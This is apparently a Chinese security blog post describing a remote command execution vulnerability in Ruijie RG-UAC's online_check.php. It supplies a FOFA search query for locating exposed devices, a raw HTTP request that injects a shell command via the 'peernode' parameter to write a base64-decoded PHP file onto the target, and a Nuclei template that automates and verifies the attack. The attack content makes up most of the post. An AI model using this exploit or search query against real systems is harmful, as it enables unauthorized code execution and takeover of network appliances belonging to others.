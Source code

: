 #  锐捷Ruijie-UAC online_check.php存在RCE   
joyboy  fly的渗透学习笔记   2024-03-09 17:34  
  
**一、免责声明：**  
  
****  
      本次文章仅限个人学习使用，如有非法用途均与作者无关，且行且珍惜；由于传播、利用本公众号所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，公众号及作者不为此承担任何责任，一旦造成后果请自行承担！如有侵权烦请告知，我们会立即删除整改并向您致以歉意。谢谢！  
  
  
**二、产品介绍：**  
  
****  
![](https://mmbiz.qpic.cn/mmbiz_png/iaqVyfOadia6roCcjlf8Xv2Kzia1OYkLJvef89Qibs7TONz3zybTZ6uNKo2fGzzh8xj4dnLDBNYD6H9OOcRlWAoM7A/640?wx_fmt=png&from=appmsg "")  
  
**三、资产梳理：**  
  
****  
fofa：title="RG-UAC登录页面"  
  
**四、漏洞复现：**  
  
****  
![](https://mmbiz.qpic.cn/mmbiz_png/iaqVyfOadia6roCcjlf8Xv2Kzia1OYkLJveO1icTPG9Mko6pib3ub79V32eCXLeNDvBm9c1EyBNBtJmv3xWLpzpTqOg/640?wx_fmt=png&from=appmsg "")  
```
GET /view/vpn/autovpn/online_check.php?peernode=%20|%20`echo%20PD9waHAgcGhwaW5mbygpOw==%20|%20base64%20-d%20%3E%20t1.php` HTTP/1.1
Host: target
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1


```  
  
文件地址：http://target/view/vpn/autovpn/t1.php  
  
**Nuclei模板:**  
```
id: ruijie_rce

info:
  name: ruijie_rce
  author: joyboy
  severity: high
  description: |
    锐捷Ruijie-UAC online_check.php远程RCE漏洞
  metadata:
    max-request: 1
    verified: true
    fofa-query: title="RG-UAC登录页面"
  tags: rce

http:
  - raw:
      - |-
        GET /view/vpn/autovpn/online_check.php?peernode=%20|%20`echo%20PD9waHAgcGhwaW5mbygpOw==%20|%20base64%20-d%20%3E%20ttt.php` HTTP/1.1
        Host: {{Hostname}}
        
      - |+
        GET /view/vpn/autovpn/ttt.php HTTP/1.1
        Host: {{Hostname}}

    matchers-condition: and
    matchers:
      - type: word
        part: body_2
        words:
          - 'PHP Version'

      - type: status
        status:
          - 200

```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iaqVyfOadia6roCcjlf8Xv2Kzia1OYkLJveKjEzEzGwnHQHGDyiawF9maiaMe9haa971C4IEe0CXEpaunOBLtlMc4gA/640?wx_fmt=png&from=appmsg "")  
  
  
